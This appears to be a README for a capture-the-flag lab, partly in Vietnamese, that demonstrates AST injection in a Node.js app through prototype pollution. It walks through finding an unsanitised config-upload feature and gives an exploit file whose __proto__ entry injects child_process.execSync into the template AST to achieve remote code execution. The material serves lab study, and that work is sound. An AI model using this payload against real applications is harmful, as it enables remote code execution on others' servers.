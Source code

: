 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
###### Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật
###### Quan sát tiếp source code của trang web ở đúng chức năng upload file cấu hình ransomware:
- Trang web sử dụng template engine là blade
- Chức năng update được comment lại để bảo trì
```
var config = parse(req.file.buffer.toString());
// await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
res.redirect('/ransomware/' + req.params.id);
```
- Nội dung file không được làm sạch trước khi thực thi chức năng
###### Nghiên cứu về quá trình template thực hiện compile giao diện 
![image](https://user-images.githubusercontent.com/61985236/110513072-648c4c80-8138-11eb-8bf0-97b1a513b9be.png)
- Bước cuối của quá trình trên là execute, do đó nếu chèn được câu lệnh khai thác vào cây AST trước khi được thực thi, có khả năng sẽ dẫn đến RCE

### Solutions
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exloit

